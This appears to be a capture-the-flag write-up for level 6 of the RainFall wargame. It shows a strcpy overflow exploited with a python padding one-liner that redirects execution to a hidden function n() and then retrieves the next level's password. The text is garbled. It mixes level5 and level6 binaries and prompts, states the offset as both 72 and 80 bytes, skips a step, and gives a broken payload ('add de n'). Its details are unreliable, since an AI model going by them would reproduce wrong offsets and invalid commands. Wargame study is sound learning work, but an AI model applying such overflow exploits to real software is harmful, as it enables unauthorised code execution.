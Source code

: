 #Level6

## Objective

The goal of Level 6 is to escalate from `level6` to `level7` by exploiting a buffer overflow vulnerability in the `level6` binary. By the end, we’ll be able to read the password for `level7`.

---

## Step 1: Examine the Binary

After switching to `level5`:

```bash
level5@RainFall:~$ ls
level5
```

Running the binary with different input lengths:

```bash
level5@RainFall:~$ ./level5
Segmentation fault (core dumped)

level5@RainFall:~$ ./level5 aaaaa
nope
```

Disassembling functions:

There's a function called `n()` which calls a syscall.
The main uses 2 mallocs and a strcpy. If there's a strcpy there's a way to leak.

> Observations:
>
> * The program segfaults when there's no arg.
> * And when there's an arg it says "nope".

---

## Step 2: Find the Offset with GDB

We use the cyclic string to identify the overwrite point:

```bash
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9...
Program received signal SIGSEGV
0x41346341 in ?? ()
```
By calculating the position of `0x41346341` in the cyclic string, we determine the **offset** is 72 bytes.

---

## Step 4: So What’s the Expected Input?

To exploit the program:

* **Shellcode is not needed** here because the binary already has a function (`n`) that runs the command for us.
* We need: `padding (80 bytes) + address of n()`

```bash
./level6 $(python -c 'print "A" * 72 + "add de n")
```

This overwrites the return address with the address of `n()` (0x08048444).

---

## Step 5: Get the Flag

Running the exploit:

```bash
level5@RainFall:~$ ./level5 $(cat /tmp/exploit)
123456789abcdef...
```

Now we can read:

```bash
level5@RainFall:~$ su level6
Password: <paste flag>
level6@RainFall:~$
```

---

## Step 6: Summary

* **Vulnerability:** Buffer overflow via unchecked input.
* **Offset:** 80 bytes to reach EIP.
* **Target:** Hidden function `n()` at `0x08048444`.
* **Outcome:** Successfully redirected execution to `n()`, retrieved the `level6` password.

---

**End of Level 6 Walkthrough**
